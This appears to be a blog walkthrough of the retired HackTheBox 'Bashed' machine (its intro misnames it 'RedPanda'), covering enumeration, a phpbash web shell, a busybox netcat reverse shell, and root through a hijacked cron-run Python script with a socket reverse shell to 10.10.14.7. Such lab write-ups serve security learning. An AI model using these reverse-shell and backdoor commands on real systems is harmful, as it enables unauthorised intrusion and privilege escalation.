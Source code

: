 ```yaml
---
layout: post
date: 2023-05-16
title: "Bashed Walkthrough"
categories: [hackthebox]
tags: [hackthebox, linux, web, SUDO, Scheduled Job Abuse]
---
```


This is a walkthrough on how to complete the RedPanda box on Hackthebox.com. This box has been retired. The box is rated as **easy** difficulty. You can attempt the machine [here](https://app.hackthebox.com/machines/118) as well as view their write up on the box. 

Required Skills include: Web enumeration, Linux fundamentals.


I first started out with nmap scan as you must know what is open and what is closed. 

sudo nmap -Pn -n -v -sC -sV --open --min-rate=1000 -oA bashed BashedIP

```shell
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

added bashed.htb to hosts file so I am able to access the page online.

![[/assets/images/Bashed/mainpage.jpg]]

This links to another interesting page with more information relating to the exploit. 

![[/assets/images/Bashed/mainpage2.jpg]]

This shows an example of a php file that is on the server, however I do not know that at this point in time. 

![[/assets/images/Bashed/githubpage.jpg]]


https://github.com/Arrexel/phpbash


ran feroxbuster

```shell

feroxbuster -u http://bashed.htb/ -k --wordlist=/usr/share/wordlists/dirb/big.txt

```


```shell
404      GET        -l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      161l      397w     7743c http://bashed.htb/
404      GET        9l       34w      296c http://bashed.htb/Documents%20and%20Settings
404      GET        9l       33w      284c http://bashed.htb/contact%20us
301      GET        9l       28w      306c http://bashed.htb/css => http://bashed.htb/css/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
404      GET        9l       33w      285c http://bashed.htb/donate%20cash
404      GET        9l       33w      288c http://bashed.htb/external%20files
301      GET        9l       28w      308c http://bashed.htb/fonts => http://bashed.htb/fonts/
404      GET        9l       33w      283c http://bashed.htb/home%20page
301      GET        9l       28w      309c http://bashed.htb/images => http://bashed.htb/images/
301      GET        9l       28w      305c http://bashed.htb/js => http://bashed.htb/js/
404      GET        9l       33w      284c http://bashed.htb/modern%20mom
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
404      GET        9l       33w      288c http://bashed.htb/press%20releases
403      GET       11l       32w      298c http://bashed.htb/server-status
404      GET        9l       33w      287c http://bashed.htb/style%20library
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
403      GET       11l       32w      302c http://bashed.htb/uploads/.htaccess
403      GET       11l       32w      302c http://bashed.htb/uploads/.htpasswd
404      GET        9l       34w      304c http://bashed.htb/uploads/Documents%20and%20Settings
404      GET        9l       33w      295c http://bashed.htb/uploads/Program%20Files
404      GET        9l       33w      292c http://bashed.htb/uploads/contact%20us
404      GET        9l       33w      293c http://bashed.htb/uploads/donate%20cash
404      GET        9l       33w      296c http://bashed.htb/uploads/external%20files
404      GET        9l       33w      291c http://bashed.htb/uploads/home%20page
404      GET        9l       33w      292c http://bashed.htb/uploads/modern%20mom
404      GET        9l       33w      292c http://bashed.htb/uploads/my%20project
404      GET        9l       34w      297c http://bashed.htb/uploads/neuf%20giga%20photo
404      GET        9l       33w      296c http://bashed.htb/uploads/press%20releases
404      GET        9l       33w      290c http://bashed.htb/uploads/site%20map
404      GET        9l       33w      295c http://bashed.htb/uploads/style%20library

```


going to this page provides us with a semi-shell which was shown above in the github repo. 

http://bashed.htb/dev/phpbash.php


![[/assets/images/Bashed/phpbash.jpg]]


sudo -l

![[/assets/images/Bashed/phpbash2.jpg]]

cd .. 

cd uploads/

wget http://10.10.14.7/simple-backdoor.php

http://bashed.htb/uploads/simple-backdoor.php

navigate to that page for further command execution to try and get a full shell.
	this did not work.

I saw that it was running busybox when I typed ls /bin

so I ran this command with my listener running 


```shell
busybox nc 10.10.14.7 4444 -e /bin/bash
```

```shell
nc -lvnp 4444
```


I now have a bad shell as user "www-data" so I  can upgrade with 


```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This enables me to have lateral movement.


```shell
sudo -u scriptmanager /bin/bash
```


I am now the user "scriptmanager".


I attempt to run sudo -l where it asks for a password of which I do not have.



I then travel to /home and see another user. arrexel which I can read his files and thus got the user flag.

![[/assets/images/Bashed/shell.jpg]]



travelling to / shows me an interesting folder. /scripts which I travel to finding test.py and test.txt

![[/assets/images/Bashed/shell2.jpg]]

seeing the files you can see test.py is owned by scriptmanager and test.txt is owned by root.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```


I read test.py which it creates the test.txt file and thus I can assume that the script is being automated as root. I can then change the file contents of test.py which I uploaded a bash rev shell into test.py

I got this reverse shell from https://revshells.com

```python
import os
import pty
import socket


s=socket.socket()
s.connect(("10.10.14.7",5555))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
```



This gave me a root shell.



![[/assets/images/Bashed/pwned.jpg]



You can secure the exploited vulnerability by first not having an interactive shell built into your webapp. Another step to take is to ensure that you do not have scripts running at elevated levels if unnecessary. To change this, you will need to change who is running the automated job. The permissions seemed to be fine on this machine.  





